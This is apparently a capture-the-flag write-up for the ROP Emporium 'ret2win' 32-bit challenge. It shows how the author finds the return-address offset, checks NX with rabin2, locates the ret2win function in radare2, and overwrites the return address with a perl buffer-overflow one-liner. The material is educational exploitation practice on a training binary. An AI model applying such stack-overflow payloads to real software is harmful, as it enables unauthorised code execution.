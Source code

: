 # ret2win

You can find this challange [here](https://ropemporium.com/challenge/ret2win.html).

## Black-Box Test
Let's run the program `ret2win32` and observe the output

```
./ret2win32
```
![](./0.png)

Let's input normal data, such as `ABCD`, and observe the program's behavior.

![](./1.png)

After some trial and error, I found the exact index where we can overwrite the return address.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./ret2win32
```
![](./4.png)
```
sudo dmesg -k | tail -2
```
![](./5.png)





## Finding important details

If we examine the stack permissions, we'll find that NX protection is enabled on it, so we won't be able to execute code that is written directly on it.

```
rabin2 -I ret2win32
```
![](./2.png)

Therefore, we will look for functions that can help us.

```
rabin2 -qs ret2win32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./3.png)

The function `ret2win` looks very suspicious and matches the challenge name, so it's likely the function we're looking for. To be absolutely sure, let's take a closer look at the function itself.

```
r2 ret2win32
```
```
aa
```
```
afl
```
![](./6.png)
```
pdf @ sym.ret2win
```
![](./7.png)

Indeed, that is the function we want.

## Solution

The `ret2win` function is located at address `0x0804862c`. To overwrite the return address, we first need to fill the stack with 44 garbage characters. The address will follow immediately after them.

So, let's return to the terminal and enter the following command:

```
perl -e 'print "A"x44 . "\x2c\x86\x04\x08"' | ./ret2win32
```
![](./8.png)

And that’s it!
